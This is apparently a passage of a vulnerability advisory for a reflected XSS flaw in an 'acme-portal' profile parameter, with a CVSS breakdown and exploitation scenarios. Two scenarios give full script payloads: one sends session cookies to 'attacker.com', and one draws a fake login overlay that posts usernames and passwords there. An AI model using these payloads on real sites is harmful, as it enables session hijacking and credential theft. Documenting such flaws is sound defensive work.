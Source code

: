 - **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely over the internet through crafted URLs
- **Low Attack Complexity (AC:L)**: Exploiting the vulnerability is straightforward and doesn't require special conditions
- **No Privileges Required (PR:N)**: An attacker doesn't need any authentication to craft a malicious URL
- **User Interaction Required (UI:R)**: The victim must click on a malicious link or visit a crafted URL for the attack to succeed
- **Unchanged Scope (S:U)**: The vulnerability affects only the user's browser session without impacting other components
- **Low Confidentiality Impact (C:L)**: The attacker can access sensitive information like cookies or data displayed on the page
- **Low Integrity Impact (I:L)**: The attacker can modify data or perform actions within the user's session
- **No Availability Impact (A:N)**: The vulnerability doesn't significantly impact the availability of the system

This classification reflects that while the vulnerability allows for the execution of arbitrary JavaScript in a victim's browser, it requires user interaction and primarily affects the individual user's session rather than the entire system infrastructure.

# Exploitation Scenarios
**Scenario 1: Session Hijacking via Phishing**
An attacker crafts a malicious URL targeting the vulnerable parameter:
```
https://acme-portal.com/profile?data=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

```
The attacker then sends this link to employees via email, disguised as a legitimate company communication. When a user clicks the link, their browser executes the injected script, sending their session cookie to the attacker's server. With this cookie, the attacker can hijack the victim's session and gain unauthorized access to the user management portal.

**Scenario 2: Credential Harvesting**
An attacker creates a URL with a payload that generates a fake login overlay:
```
https://acme-portal.com/profile?data=<script>document.body.innerHTML='<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999;padding:20px;"><h2>Session Expired</h2><p>Please re-enter your credentials:</p><form id="fake" onsubmit="fetch(\'https://attacker.com/steal\',{method:\'POST\',body:JSON.stringify({u:this.username.value,p:this.password.value})});return false;"><input name="username" placeholder="Username"><input name="password" type="password" placeholder="Password"><button>Login</button></form></div>'</script>

```
When a victim visits this URL, their browser displays a convincing overlay asking them to re-enter their credentials. Any submitted credentials are sent to the attacker's server.

**Scenario 3: Lateral Movement**
An attacker who gains access to one user's account could use the XSS vulnerability to target administrators or other privileged users. By crafting a malicious link and sending it through internal messaging features, the attacker could execute JavaScript that performs unauthorized actions when clicked by a privileged user, such as creating new accounts or changing permissions.
